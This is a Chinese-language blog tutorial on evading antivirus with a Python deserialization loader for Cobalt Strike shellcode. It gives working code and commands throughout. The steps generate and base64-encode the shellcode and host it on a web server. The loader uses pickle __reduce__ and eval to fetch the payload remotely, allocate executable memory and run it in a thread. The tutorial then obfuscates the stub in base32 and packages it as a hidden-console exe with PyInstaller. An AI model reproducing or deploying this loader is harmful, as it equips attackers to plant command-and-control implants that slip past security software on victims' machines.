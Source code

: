 ```yaml
---
title: 基于加载器的python反序列化免杀
tags:
  - 免杀
---
```

### 基于加载器的python反序列化免杀(打包生成的exe暂只支持win7可执行)

<strong>PS1：来自moonsec师傅的分享</strong>

<strong>PS2:在复现过程中发现可通过替换编码方式使得win7上也可正常执行，且不影响免杀效果

#### 0x01 环境配置

Win10 x64

Win7  x64

Python 2.7.18

Pyinstaller3.4

CS4.0

<strong> pip install pyinstaller==3.4 -i https://pypi.doubanio.com/simple/ </strong>

|---------------------------------------------------------------------------------------|

#### [0x02 免杀原理]

利用反序列化加载器绕过杀软基于特征的免杀。利用编码绕过shellcode的查杀。可以将加密好的shellcode放在远程服务器上，再加载不同的shellcode，进行扩展。

#### 0x03 制作加密shellcode

利用cs获取shellcode

![](https://fifteenblackslime.github.io/assets/pic/media1/e0aa28720b9c4622e4d0a6ca71e13fb4.png)

此处选择python语言，以及使用x64payload，否则执行python文件时会中断。

![](https://fifteenblackslime.github.io/assets/pic/media1/a398c4e7bf777025737ed5a996feec68.png)

此处生成payload为：

![](https://fifteenblackslime.github.io/assets/pic/media1/8310ab75b4e0a155e8b54989c05e9269.png)

使用任意方式进行加密，此处采用base64进行。

用生成payload替换buf

<strong> import base64,urllib2 <br> buf = "shellcode" <br> html = base64.b64encode(buf) print html </strong>


|---------------------------------------------------------------------------------------|


将使用base64加密后的payload保存为txt文件，然后放在可访问web目录下。

![](https://fifteenblackslime.github.io/assets/pic/media1/38fa0ebdce2832091cde822472d890fa.png)

使用如下脚本测试是否能够获取到解密后的payload

<strong>import base64,urllib2 <br> html = urllib2.urlopen('http://192.168.176.129:8000/base.txt').read().decode('base64') print html </strong>

此处看到ip表示解密未出现问题。

![](https://fifteenblackslime.github.io/assets/pic/c20169b6d62cf1444bbeb9d0da605c74.png)

#### 0x04 使用加载器加载payload

使用如下加载器尝试加载执行：

import ctypes,cPickle,base64,urllib2

class ptr(object):

    def __reduce__(self):
        return (eval, ("urllib2.urlopen('http://192.168.176.129:8000/base.txt').read().decode('base64')",))
class buf(object):

    def __init__(self,shellcode):
        self.shellcode = shellcode

    def __reduce__(self):
        return (eval, ("ctypes.windll.kernel32.VirtualAlloc(0,len(shellcode),0x1000,0x40)",))

class windll(object):

    def __init__(self,rwxpage,shellcode):
        self.rwxpage = rwxpage
        self.shellcode = shellcode

    def __reduce__(self):
        return (eval, ("ctypes.windll.kernel32.RtlMoveMemory(rwxpage,ctypes.create_string_buffer(shellcode),len(shellcode))",))

class ht(object):

    def __init__(self,rwxpage):
        self.rwxpage = rwxpage

    def __reduce__(self):
        return (eval, ("ctypes.windll.kernel32.CreateThread(0,0,rwxpage,0,0,0)",))

class run(object):
    def __init__(self,handle):
        self.handle = handle

    def __reduce__(self):
        return (eval,("ctypes.windll.kernel32.WaitForSingleObject(handle,-1)",))

if __name__ == '__main__':

    raw_shellcode = ptr()
    ser_shellcode = cPickle.dumps(raw_shellcode)
    emb32_shellcode = base64.b32encode(ser_shellcode)
    shellcode = cPickle.loads(base64.b32decode(emb32_shellcode))

    raw_vir = buf(shellcode)
    ser_vir = cPickle.dumps(raw_vir)
    emb32_vir = base64.b32encode(ser_vir)
    rwxpage = cPickle.loads(base64.b32decode(emb32_vir))

    raw_rtl = windll(rwxpage,shellcode)
    ser_rtl = cPickle.dumps(raw_rtl)
    emb32_rtl = base64.b32encode(ser_rtl)

    raw_handle = ht(rwxpage)
    ser_handle = cPickle.dumps(raw_handle)
    emb32_handle = base64.b32encode(ser_handle)
    handle = cPickle.loads(base64.b32decode(emb32_handle))

    raw_run = run(handle)
    ser_run = cPickle.dumps(raw_run)
    emb32_run = base64.b32encode(ser_run)

    output = '''import ctypes,cPickle,base64,urllib2

e_shellcode = "{}"
shellcode = cPickle.loads(base64.b32decode(e_shellcode))

e_rwxpage="{}"
rwxpage = cPickle.loads(base64.b32decode(e_rwxpage))

e_code = "{}"
cPickle.loads(base64.b32decode(e_code))

e_handle = "{}"
handle = cPickle.loads(base64.b32decode(e_handle))

e_run = "{}"
cPickle.loads(base64.b32decode(e_run))'''.format(emb32_shellcode,emb32_vir,emb32_rtl,emb32_handle,emb32_run)

    with open('shellcode.py','w') as f:
        f.write(output)
        f.close() 

|---------------------------------------------------------------------------------------|

执行py文件后，会在该文件目录下生成shellcode.py，使用python执行后，查看CS是否上线：

![](https://fifteenblackslime.github.io/assets/pic/media1/5aa8c2c6a950c1a4275d484eff957f3e.png)

如成功上线，使用pyinstaller生成exe可执行文件。

#### 0x05 pyinstaller生成exe文件

pyinstaller生成指定图标无命令行的exe文件

<strong> pyinstaller.exe –noconsole –onefile shellcode.py -i 128.ico -n shellcode </strong>



![](https://fifteenblackslime.github.io/assets/pic/media1/bf36cb2d74e7d10cf0cd41661f2deadc.png)

生成默认目录为pyinstaller.exe所在目录中的dist目录下

![](https://fifteenblackslime.github.io/assets/pic/media1/67faca8a79d2c4a479fb3d551ca7fd57.png)
